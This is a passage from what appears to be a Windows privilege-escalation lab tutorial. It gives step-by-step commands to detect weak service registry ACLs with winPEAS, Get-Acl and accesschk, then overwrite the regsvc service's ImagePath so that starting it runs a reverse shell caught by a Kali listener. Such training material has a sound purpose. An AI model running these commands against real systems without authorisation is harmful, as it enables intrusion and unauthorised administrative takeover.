 6. Start a listener on Kali, and then start the service to trigger the exploit:
    ````
    net start unquotedsvc
    `````


AND BIM!

---



### Weak Registry Permissions
The Windows registry stores entries for each service.
Since registry entries can have ACLs, if the ACL is 
misconfigured, it may be possible to modify a service’s 
configuration even if we cannot modify the service 
directly

---
**Exercise :**

Connect to your windows server VMwith user account.

1. Run winPEAS to check for service misconfigurations:
    ````
    .\winPEASany.exe quiet servicesinfo

    ````
2. Note that the “regsvc” service has a weak registry entry. We can confirm this with 
PowerShell:
    ````powershell
    PS> Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
    ````
3. Alternatively accesschk.exe can be used to confirm:
    ````cmd
    .\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
    ````
4. Overwrite the ImagePath registry key to point to our reverse shell executable:
    ````
    reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
    ````
5. Start a listener on Kali, and then start the service to trigger the exploit:
    ````
    net start regsvc
    ````
AND BIM!

---

### Insecure Service Executables
If the original service executable is modifiable by our 
user, we can simply replace it with our reverse shell 
executable.
Remember to create a backup of the original executable 
if you are exploiting this in a real system!

---